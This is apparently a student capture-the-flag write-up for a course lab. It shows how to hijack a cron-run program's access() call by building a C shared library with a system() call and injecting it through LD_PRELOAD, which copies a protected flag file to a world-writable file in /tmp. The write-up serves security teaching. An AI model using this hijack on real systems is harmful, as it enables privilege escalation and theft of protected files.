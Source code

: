 # Linux Environment

## Introduction

When connecting to a Linux server listening on the port 4006 on the host ctf-fsi.fe.up.pt using a netcat program on the shell: nc ctf-fsi.fe.up.pt 4006.

This server is running on Ubuntu 20.04 similar to the one used on the SEED Labs.

## Initial Situation

Initially we get access to the system and we depare ourselves with the following message from the admin:

![admin_message](../docs/ctf4/admin_message.png)

He wrote a script that writes the flag to the 'flags' directory and then runs the 'reader' program:

![script](../docs/ctf4/script.png)

This 'main.c' program runs every minute and calls a function 'access':

![main](../docs/ctf4/main.png)

We can verify we don't have access to the 'flags' directory nor the last log.

Next we see a script that is running every minute.
From that we can start to develop a strategy to write the flag to a file that we can access by overriding the 'access' method used in the script written by the admin that is running every minute.

We want to access the 'flags' directory to read the contents of the 'flag.txt' file. 

## Solution

First we create a 'script.c' file that has a function access. This function is meant to call 'system()' so that it can write the contents of the flag.txt to the ll.txt file that we will create:<br>
```c
#include <stdlib.h>
#include <stdio.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
} 
```

Next we will create a new file named ll.txt and change the permissions making it possible for all users to read, write and execute. In this case we need this so that the program that calls 'access' function can actually write to the 'll.txt' file, since that function is executed by another user:
```	bash
    $ touch  ll.txt  
    $ chmod 777 ll.txt
```

After that we will compile the c file and create a new library:
```bash
    $ gcc -fPIC -g -c script.c
    $ gcc -shared -o script.so script.o -lc
```
Finally, we will create a new 'env' file and write a LD_PRELOAD override to it, making it so that the script will run our 'access' function instead of the original one when the 'env' is called:
```bash
    $ echo 'LD_PRELOAD=/tmp/script.so' > env
```

With that, we can use the script to write to the 'll.txt' file the flag that we can't access by reading the 'flag.txt'.

After 1 minute, we will get the flag by reading the 'll.txt' file, which is: 

![flag](../docs/ctf4/flag.png)
